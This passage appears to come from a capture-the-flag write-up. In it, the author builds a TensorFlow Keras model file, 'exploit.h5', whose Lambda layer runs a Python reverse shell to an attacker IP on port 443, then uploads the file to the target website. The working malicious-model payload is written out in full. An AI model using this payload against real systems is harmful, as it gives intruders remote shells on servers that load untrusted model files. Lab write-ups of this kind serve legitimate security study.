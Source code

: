 ```py
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

In this script, I create a basic TensorFlow model saved as "exploit.h5". The key point is that I add a Lambda layer with a custom Python function in the following line:

```py
model.add(tf.keras.layers.Lambda(exploit))
```

The Lambda layer of the model is assigned the exploit function, which establishes a connection to my machine and, using redirectors, launches an interactive reverse shell on port 443:

```py
def exploit(x):
    import socket, subprocess, os
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("10.10.16.33", 443))
        os.dup2(s.fileno(), 0)
        os.dup2(s.fileno(), 1)
        os.dup2(s.fileno(), 2)
        subprocess.Popen(["/bin/sh", "-i"])
    except Exception as e:
        pass
    return x
```

I proceed to upload the .h5 file to the website:

![web](/assets/img/commons/artificial/exploit_upload.png){: .center-image }

